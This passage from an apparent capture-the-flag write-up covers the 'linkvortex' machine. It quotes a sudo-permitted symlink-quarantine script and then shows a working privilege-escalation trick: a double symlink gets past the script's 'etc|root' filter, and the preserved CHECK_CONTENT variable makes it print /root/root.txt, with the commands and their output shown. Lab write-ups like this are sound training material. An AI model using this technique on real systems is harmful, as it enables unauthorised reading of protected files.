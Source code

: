 Before looking at the script, lets state what we might be able to exploit:
- `ENV_KEEP+=CHECK_CONTENT` - We can keep an environment variable while executing as `root`
- `../clean_symlink.sh *.png` - We can exploit wildcard expansions


**/opt/ghost/clean_symlink.sh:**

```bash,linenos
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

So how can we exploit that?

We can double link it and use the `CHECK_CONTENT` to print the contents of any file we want.

```bash
bob@linkvortex:~$ ln -fs /root/root.txt link
bob@linkvortex:~$ ln -fs link cute_puppy.png
bob@linkvortex:~$ CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh cute_puppy.png
Link found [ cute_puppy.png ] , moving it to quarantine
Content:
bob@linkvortex:~$ ln -fs /root/root.txt link
bob@linkvortex:~$ ln -fs /home/bob/link cute_puppy.png
bob@linkvortex:~$ CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh cute_puppy.png
Link found [ cute_puppy.png ] , moving it to quarantine
Content:
4990........................9f83
```
